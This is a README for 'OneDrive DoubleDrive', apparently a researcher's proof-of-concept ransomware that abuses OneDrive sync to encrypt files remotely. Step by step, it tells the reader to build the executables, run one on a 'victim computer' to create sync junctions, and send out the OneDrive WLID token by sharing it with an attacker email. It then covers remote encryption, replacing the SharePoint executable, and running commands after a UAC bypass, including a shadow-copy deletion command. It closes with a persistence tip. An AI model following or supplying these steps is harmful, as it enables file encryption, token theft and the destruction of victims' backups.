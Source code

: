 # OneDrive DoubleDrive
A DoubleDrive variant that uses OneDrive to encrypt local files remotely.

## How to use
1. Make sure you clone the DoubleDrive repo and install the DoubleDrive python package. If you are currently in the onedrive_doubledrive folder then run:
```cmd
pip install ../
```
2. Use `config_setup.py` to setup the exact configuration you want for the ransomware. For example:
```cmd
python .\config_setup.py --temp-email --target-paths C:\Users\Admin\Documents C:\Users\Admin\Desktop
```
3. While you are in the onedrive_doubledrive folder, run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\endpoint_takeover.py; pyinstaller --onefile --add-data "config.yaml;." .\onedrive_doubledrive.py
```
In case you mentioned the `--onedrive-binaries-junction` flag in the previous stage then you should also run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\follow_attacker_commands.py
```
4. A folder named `dist` will be created. Inside you can find `endpoint_takeover.exe` and `onedrive_doubledrive.exe`
5. Transfer `endpoint_takeover.exe` to the victim computer and run it. This will create junctions in the OneDrive sync folder that point towards the target folders the contain files to encrypt. It will also extract the WLID token of the OneDrive account and exfiltrate it by sharing it with the email address chosen in the configuration setup stage.
> Note - If you chose a temporary email address you should continue to the next step as soon as possible because the generated temporary email address that DoubleDrive uses works for a limited amount of time.
6. Execute `onedrive_doubledrive` with the preferred flags on the attacker's computer. For example:
```cmd
onedrive_doubledrive.exe --remote-ransomware
```
7. In case you passed the `--onedrive-binaries-junction` flag to the `config_setup.py` script in the configuration setup stage, then you can:
   1. Replace the SharePoint executable located in OneDrive's installation folder by running:
   ```cmd
   onedrive_doubledrive.exe --replace-sharepoint
   ```
   2. Execute commands using the `--run-command` flag. You can also run them after a UAC bypass was executed if you add the `--command-uac-bypass` flag. For example:
   ```cmd
   onedrive_doubledrive.exe --run-command "vssadmin delete shadows /all /quiet" --command-uac-bypass
   ```

## Update: SharePoint Executable Command Execution Technique
As you can read in the blog post I published about this research, the technique of replacing the SharePoint executable located in OneDrive's installation folder depends on the fact that `OneDrive.exe` runs `Microsoft.SharePoint.exe` when it starts. After I created this technique, and I reported my findings to all the relevant vendors, it now seems that in newer versions of OneDrive the `Microsoft.SharePoint.exe` executable is not run anymore every time `OneDrive.exe` starts. Seems like there are other triggers for `OneDrive.exe` to run `Microsoft.SharePoint.exe`, which I have not investigated. If you wish, you can alter DoubleDrive's code to write the `follow_attacker_commands.exe` executable to the current user's startup folder instead.